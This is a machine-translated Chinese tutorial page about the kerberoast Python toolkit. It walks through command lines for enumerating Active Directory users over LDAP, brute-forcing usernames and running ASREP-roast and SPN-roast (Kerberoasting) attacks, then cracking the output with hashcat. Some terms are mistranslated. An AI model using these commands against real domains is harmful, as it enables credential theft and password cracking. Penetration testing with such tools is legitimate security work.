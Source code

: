 # Kerberos ast:Kerberos ast 攻击-纯 Python-

> 原文：<https://kalilinuxtutorials.com/kerberoast/>

[![](img/00b2707312aa65a2ed72aaeb63adef7e.png)](https://blogger.googleusercontent.com/img/a/AVvXsEgUe2CUSMsU480pQCpY3QX7XF9W7qxvTFlf0du0fCj76gxXB9Ewb7AkzNKXQuPx1sg1a87Mhe3CT9G4igujaIRN7q99LExwXlNawQTFag1CL3HC6BQ2sZlzw0-losEpdGOTcwmK94cdFZSOR9kPifsSv2gQPXP_mww_J8uURgb73GPJ7rHYWNCKJDef=s760)

**Kerberos ast**攻击工具包——纯 python

**安装**

**pip3 安装 Kerberos ast**

**先决条件**

Python 3.6 参见 requirements.txt

**为不耐烦的**

重要提示:LDAP 和 Kerberos 可接受的目标 url 格式如下:
**`<ldap_connection_url>`:`<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>`
`<kerberos_connection_url>`:`<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>`**

步骤-与 SSPI-: `**kerberoast auto <DC_ip>**`

步骤-未使用 SSPI:

*   通过 LDAP
    `**kerberoast ldap all <ldap_connection_url> -o ldapenum**`查找易受攻击的用户
*   在`**ldapenum_asrep_users.txt**`文件中对用户使用 ASREP bake
    `**kerberoast asreproast <DC_ip> -t ldapenum_asrep_users.txt**`
*   使用 SPN 烤兑用户在`**ldapenum_spn_users.txt**`文件
    中`**kerberoast spnroast <kerberos_connection_url> -t ldapenum_spn_users.txt**`
*   用 hashcat 破解 SPN 烘焙和 ASPREP 烘焙输出

**命令**

**ldap**

此命令组用于通过 LDAP 枚举潜在易受攻击的用户。

**指挥结构**

`**kerberoast ldap <type> <ldap_connection_url> <options>**`

`**Type**`:支持列举三种类型的用户

*   `**spn**`枚举设置了`**servicePrincipalName**`属性的用户。
*   `asrep`列举在其 UAC 属性中设置了`**DONT_REQ_PREAUTH**`标志的用户。
*   开始上面提到的所有枚举。

`**ldap_connection_url**`:以 msldap url 格式指定用户凭证和目标服务器(参见帮助)

**`options` :
`-o`** :输出文件基础名

**蛮**

该命令通过强制 kerberos 服务使用可能的候选用户名来执行用户名枚举

**指挥结构**

`**kerberoast brute <realm> <dc_ip> <targets> <options>**`

`**realm**`:Kerberos 领域通常看起来像`**COMPANY.corp**`
`**dc_ip**`:域控制器的 IP 或主机名
`**targets**`:包含可能的候选用户名
`**options**`的文件的路径:
`**-o**`:输出文件基本名称

**asreproast**

该命令用于执行重播攻击

**指挥结构**

`**kerberoast asreproast <dc_ip> <options>**`

`**dc_ip**`:域控制器
`**options**`的 IP 或主机名:
`**-r**`:指定要使用的 kerberos 领域。它会覆盖所有其他领域信息。
`**-o**`:输出文件基名
`**-t**`:包含对
`**-u**`进行攻击的用户名的文件路径:指定要攻击的用户。格式是`<username>`或`<username>@<realm>`，但是在第一种情况下，必须使用`-**r**`选项来指定领域

**spnroast**

该命令用于执行 SPNroast(又名 kerberoast)攻击。

**指挥结构**

`**kerberoast spnroast <kerberos_connection_url> <options>**`

**`kerberos_connection_url` :** 以 kerberos URL 格式指定用户凭证和目标服务器(参见帮助)

`**options**` :
`**-r**`:指定要使用的 kerberos 领域。它会覆盖所有其他领域信息。
`**-o**`:输出文件基名
`**-t**`:包含对
`**-u**`进行攻击的用户名的文件路径:指定攻击的用户。格式是`**<username>**`或`**<username>@<realm>**`，但是在第一种情况下，必须使用`**-r**`选项来指定领域

[**Download**](https://github.com/skelsec/kerberoast)